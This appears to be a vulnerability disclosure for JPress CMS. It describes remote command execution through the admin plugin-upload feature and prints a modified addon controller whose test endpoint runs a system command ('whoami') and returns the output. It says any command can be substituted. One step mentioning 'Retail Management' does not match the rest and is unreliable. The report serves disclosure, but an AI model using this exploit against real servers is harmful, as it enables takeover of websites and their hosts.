



## JPress CMS Remote Command Execution Vulnerability

JPress is a WordPress like product developed in Java that supports automatic switching between multiple sites and languages.

JPress is an open-source and free site building artifact developed in Java, inspired by WordPress. At present, more than 10w+websites have been built using JPress, including many government agencies, 200+listed companies, Chinese Academy of Sciences, Red Cross Society, etc.

There is a system plug-in interface that can be uploaded in the background of JPress. Specifically, it is uploaded by jar package or zip. Java code contains the test class of the uploaded plug-in. We can construct a malicious jar package and upload it to the system server, and access the interface of the test class to trigger parsing, thus causing remote command execution.

This vulnerability can be used to execute server system commands and obtain system information.

Vulnerability address: http://ip:8080/admin/addon/test

Code download address: https://gitee.com/JPressProjects/jpress.git

Vulnerability location: upload the plug-in function node after logging into the system.

### Exploit

Click Retail Management - Retail Delivery to obtain the interface information through packet capture.





The code of the original test interface is as follows:

```
package io.jpress.addon.helloworld;

import com.jfinal.core.ActionKey;
import com.jfinal.kit.Ret;
import io.jboot.web.controller.JbootController;
import io.jboot.web.controller.annotation.RequestMapping;
import io.jpress.JPressConsts;
import io.jpress.core.menu.annotation.AdminMenu;


@RequestMapping(value = "/helloworld",viewPath = "/")
public class HelloWorldAddonController extends JbootController {

    public void index() {
        setAttr("version","1.0.2");
        render("helloworld/index.html");
    }

    public void json() {
        renderJson(Ret.ok().set("message", "json ok...."));
    }

    @ActionKey("/admin/addon/test")
    @AdminMenu(groupId = JPressConsts.SYSTEM_MENU_ADDON, text = "插件测试")
    public void adminmenutest() {
        renderText("addon test abc");
    }
}

```

The content of the modified test interface is as follows. Since we need the system to execute this code, we need to modify the code logic based on the previous interface information. Package the HelloWorldAddonController class into a jar package and upload it.

```
package io.jpress.addon.helloworld;

import com.jfinal.core.ActionKey;
import com.jfinal.kit.Ret;
import io.jboot.web.controller.JbootController;
import io.jboot.web.controller.annotation.RequestMapping;
import io.jpress.JPressConsts;
import io.jpress.core.menu.annotation.AdminMenu;

import java.io.BufferedInputStream;
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;


@RequestMapping(value = "/helloworld",viewPath = "/")
public class HelloWorldAddonController extends JbootController {

    public void index() {
        setAttr("version","1.0.2");
        render("helloworld/index.html");
    }

    public void json() {
        renderJson(Ret.ok().set("message", "json ok...."));
    }

    @ActionKey("/admin/addon/test")
    @AdminMenu(groupId = JPressConsts.SYSTEM_MENU_ADDON, text = "插件测试")
    public String adminmenutest() {

        Runtime runtime = Runtime.getRuntime();
        StringBuilder sb = new StringBuilder();
        try {
            Process process = runtime.exec("whoami");
            BufferedInputStream inputStream = new BufferedInputStream(process.getInputStream());
            BufferedReader reader = new BufferedReader(new InputStreamReader(inputStream));

            String tmpStr;
            while ((tmpStr = reader.readLine()) != null) {
                sb.append(tmpStr);
            }

            if (process.waitFor() != 0) {
                if (process.exitValue() == 1)
                    return "Command exec failed!!";
            }

            reader.close();
            inputStream.close();
        }catch (Exception e) {
            return e.toString();
        }
        return sb.toString();
    }
}

```


After calling the test interface, it can be found that the 'whoami' command in the jar package we designed above is successfully executed and returned to the current user of my local machine.


Other commands can be executed by modifying the form of execution command.